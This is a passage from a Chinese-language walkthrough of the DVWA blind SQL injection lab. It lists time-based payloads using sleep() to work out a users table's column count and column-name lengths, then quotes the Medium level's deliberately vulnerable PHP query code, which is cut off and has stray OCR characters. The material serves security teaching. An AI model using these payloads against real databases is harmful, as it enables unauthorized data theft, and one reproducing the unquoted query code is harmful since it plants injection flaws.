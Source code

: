 
首先猜解表中字段的数量：



> 1’ and if((select count(column\_name) from information\_schema.columns where table\_name= ’users’)=1,sleep(5),1)# 没有延迟

> 

> …

> 

> 1’ and if((select count(column\_name) from information\_schema.columns where table\_name= ’users’)=8,sleep(5),1)# 明显延迟



说明users表中有8个字段。



接着挨个猜解字段名：



> 1’ and if(length(substr((select column\_name from information\_schema.columns where table\_name= ’users’ limit 0,1),1))=1,sleep(5),1) # 没有延迟

> 

> …

> 

> 1’ and if(length(substr((select column\_name from information\_schema.columns where table\_name= ’users’ limit 0,1),1))=7,sleep(5),1) # 明显延迟



说明users表的第一个字段长度为7个字符。



采用二分法即可猜解出各个字段名。



### **5.猜解数据**



同样采用二分法。



****Medium****

--------------



服务器端核心代码 



```
<?php        
if( isset( $_POST[ 'Submit' ]  ) ) {       
    // Get input       
    $id = $_POST[ 'id' ];       
    $id = mysql_real_escape_string( $id );        
    // Check database       
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";       1
    $result = mysql_query( $getid ); // Removed 'or die' to suppress mysql errors        1
    // Get results       1
    $num = @mysql_numrows( $result ); // The '@' character suppresses errors       1
    if( $num > 0 ) {       1
        // Feedback for end user       1
        echo '<pre>User ID exists in the database.</pre>';       1
    }       1
```